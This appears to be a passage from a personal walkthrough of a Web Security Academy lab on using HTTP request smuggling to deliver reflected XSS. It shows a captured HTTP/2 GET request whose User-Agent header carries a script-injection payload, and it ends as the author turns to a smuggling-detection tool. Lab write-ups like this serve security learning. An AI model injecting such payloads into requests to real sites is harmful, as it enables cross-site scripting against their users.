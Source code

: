 ![img](images/11%20-%20Exploiting%20HTTP%20request%20smuggling%20to%20deliver%20reflected%20XSS/9.png)

The GET request is:

```
GET /post?postId=6 HTTP/2
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Cookie: session=wCZh63XkY3fb78PZD4YQHfyiprCzjeko
User-Agent: useragent"><script>alert(1)</script><a href="/test
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ab30009038a2d4080d2494d0061002a.web-security-academy.net/post/comment/confirmation?postId=6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

I will launch HTTP Request Smuggler to try to detect the HTTP smuggling vulnerability:


